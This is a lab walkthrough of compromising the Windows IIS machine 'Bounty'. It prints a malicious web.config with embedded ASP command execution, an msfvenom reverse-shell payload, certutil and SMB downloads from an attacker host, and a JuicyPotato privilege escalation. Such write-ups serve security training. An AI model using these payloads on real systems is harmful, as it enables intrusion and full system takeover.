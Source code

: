 # bounty

`nmap` shows us that only port 80 is open, so lets begin enumerating that

![](../../.gitbook/assets/image%20%288%29%20%281%29%20%281%29%20%281%29%20%281%29%20%281%29.png)

shows us that we have an `aspx` files, and a folder which looks like, if we upload some thing it will go there. So lets upload a web.config with some `aspx` code in the end. This just runs a systeminfo command. I've tried with just `systeminfo` first, but it doesn't work but the below `cmd.exe /c systeminfo` worked

```text
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!--
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
        Set cmd1 = wShell1.Exec("cmd /c systeminfo")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-->
```

now, I'm going to make use of my default commands for doing file upload/download related things on windows

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
copy x:\shell.exe c:\windows\temp\shell.exe
```

once we've run both these commands on the server using the above tactic. Replace the cmd.exe with the above net use command, and after that we can try to just run the reverse shell command with the payload we generate from msfvenom. the systeminfo command gives us the information about the webserver \(omitted unneeded info\)

```text
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Domain:                    WORKGROUP
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

so its a x64 and 2008 R2 server. lets generate the msfvenom payload now,

```text
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4242 -f exe -o shell.exe
```

we can use either a normal reverse shell or meterpreter shell here. I've used meterpreter since I find it a bit easy to manage and has some useful functionality like file upload etc.

```text
certutil -urlcache -split -f http://10.10.14.9/shell.exe shell.exe
```

this is the part where the payload is uploaded into the box using the code execution we got via the web.config. This should work with doing just a normal smb transfer as well. Once we upload the payload and got a call back on our python3 -m http.server 80, we can be sure that our payload is uploaded into the remote server.

now we can change the payload in our web.config file to just execute the shell we have uploaded.

Once we understand whats going on and how to exploit it, its a matter of bunch of commands to exploit this machine which I've summarised below

```text
# to server our payload files
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

# use the remote share - this command to be run in the web.config file
net use x: \\10.10.14.9\kalishare /user:guest guest

# in the web.config, run the shell.exe, this gives us reverse shell as merlin
cmd /c x:\\shell.exe

# get juicypotato.exe into our share
# now that we got a shell, run (also listen on 4242)
# we can use the same shell.exe and listen on same port, since the active session
# is not listening anymore on that port
x:\JuicyPotato.exe -t * -p x:\\shell.exe -l 9001

and we get a root shell
```

![](../../.gitbook/assets/image%20%289%29.png)

